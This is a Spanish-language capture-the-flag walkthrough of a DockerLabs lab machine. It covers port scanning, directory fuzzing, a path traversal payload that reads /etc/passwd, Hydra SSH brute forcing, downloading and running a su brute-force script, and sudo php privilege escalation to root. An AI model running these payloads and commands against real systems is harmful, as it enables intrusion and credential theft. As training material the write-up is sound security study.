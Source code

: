 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d3884464-0007-49ca-94dd-a9b95836fc5f)

En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp (SSH ):** OpenSSH 9.2p1
2. **80/tcp (HTTP ):** Apache httpd 2.4.57

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a la página por defecto de Apache en la máquina vulnerable, confirmando así el correcto funcionamiento del servidor web Apache en Debian. La página por defecto de Apache en Debian muestra el mensaje "Apache2 Debian Default Page".
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/08d882c0-1295-4d50-a978-7c69d49fc51f)

# Fase 2- Exploración
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/845973f6-603f-438b-8d93-1aa6040bb30f)
Al realizar un fuzzing con Feroxbuster se encontró varias cosas.
```sql
http://172.17.0.2/
http://172.17.0.2/icons/openlogo-75.png
http://172.17.0.2/shop => http://172.17.0.2/shop/
http://172.17.0.2/index.html
http://172.17.0.2/shop/keyboard.jpg
http://172.17.0.2/shop/index.php
```

#### Shop
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/41f9c9b8-8be5-4ed0-9a6f-673f50eba91e)
Al entrar a /shop se encontró con una tienda de teclados con un error de sistema.
`"Error de Sistema: ($_GET['archivo']");` Este es el error.
Esto nos dice que se está usando un parámetro llamado **archivo** en la url para pasarle un valor e incluir un archivo en la web. Esto puede ser vulnerable ante un **LFI** (Local File Inclusión).

# Fase 3- Explotación

#### Path
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b4fd2492-d311-464f-8541-1d9f12c7d72e)
Conseguimos leer archivos internos haciendo un Path Traversal.
```sql
http://172.17.0.2/shop/?archivo=../../../../../../etc/passwd
```
Tenemos dos usuarios posibles, podríamos probar con ssh.
```sql
seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash
```

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1000a2d1-d750-4e00-b37e-c531d89dbb04)
Usando el comando: 
`hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`
Pudimos sacar la contraseña del usuario `manchi`.

# Fase 4- Privilegios

#### Lio
Revisamos todito y no encontramos nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia el usuario **seller** desde la propia máquina. Nos transferiremos también el diccionario **rockyou**.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/bc2965c3-aaf5-42bb-a8a4-09202620d78d)

Nos descargamos el script.sh del siguiente repositorio en la **máquina atacante**-> [Script de fuerza bruta](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

```shell
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
```

Probamos a transferirlo con **wget** o **curl** pero no es posible porque no están instalados. Los transferiremos utilizando **SCP** (Secure Copy) a la máquina con la dirección IP 172.17.0.2 a través de SSH.

Desde la máquina atacante indicamos la ruta del archivo a transferir y la ruta de la máquina víctima donde se alojará:

```shell
scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt
```

Le daremos permisos de ejecución y lo ejecutaremos hacia el usuario *_seller_:

```shell
./Linux-Su-Force.sh seller rockyou.txt 
-----------------------------------------
Contraseña encontrada para el usuario seller: qwerty
```

#### Qwerty
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/68818218-b475-44c1-9cb0-cbfec962b78c)

Como el usuario Seller, podemos ejecutar el binario php.

#### php
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/649bcf0d-5145-4412-839a-f77c8230f7c5)

Despues de mirar en gtfobins vemos que para escalar es necesario ejecutar 2 comandos:
```
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
Y ya somos usuario root.
